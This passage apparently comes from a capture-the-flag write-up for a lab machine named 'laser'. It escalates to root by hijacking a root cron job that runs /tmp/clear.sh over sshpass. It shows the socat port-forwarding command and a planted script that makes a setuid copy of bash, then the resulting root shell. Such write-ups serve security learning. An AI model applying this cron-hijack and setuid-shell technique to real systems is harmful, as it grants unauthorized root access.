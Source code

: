 ```bash
2020/08/23 09:44:01 CMD: UID=0    PID=407088 | sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz ssh root@172.18.0.2 /tmp/clear.sh
2020/08/23 09:44:01 CMD: UID=0    PID=407106 | sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz ssh root@172.18.0.2 rm /tmp/clear.sh
```

So I thought of what if we could port forward the ssh service to the solr machine? Doing that so, the `clear.sh` will run from the `solr`'s `/tmp` folder. But what next? If the `scp` is used to copy the `/tmp/clear.sh` of the docker and we port forwarded it to the `solr`'s machine that means all the cronjobs involving the `sshpass` and docker. So, first the `clear.sh` is copied to the `/tmp` folder then it is being executed and then it is being deleted. Since the cron wasn't recursive and `scp` was being used for copying the file, we can create a file in the `solr` and it'll be executed by the root of our system. 

```prolog
root@20e3289bc183:/tmp# service ssh stop
 * Stopping OpenBSD Secure Shell server sshd                                                        [ OK ] 
root@20e3289bc183:/tmp# 
root@20e3289bc183:/tmp# ./socat TCP-LISTEN:22,fork,reuseaddr TCP:172.18.0.1:22
```

I used socat to do the Port Forward and Stopped the SSH service.

I just make a simple `clear.sh` and placed it in solr's `/tmp`  

```prolog
#!/bin/sh

cp /bin/bash /tmp/root; chmod 4775 /tmp/root
```

After few minutes the file is created.

```prolog
solr@laser:/tmp$ ls -la root 
-rwsrwxr-x 1 root root 1183448 Aug 23 10:03 root
solr@laser:/tmp$ ./root -p
root-5.0# whoami;hostname
root
laser
```

We own the box.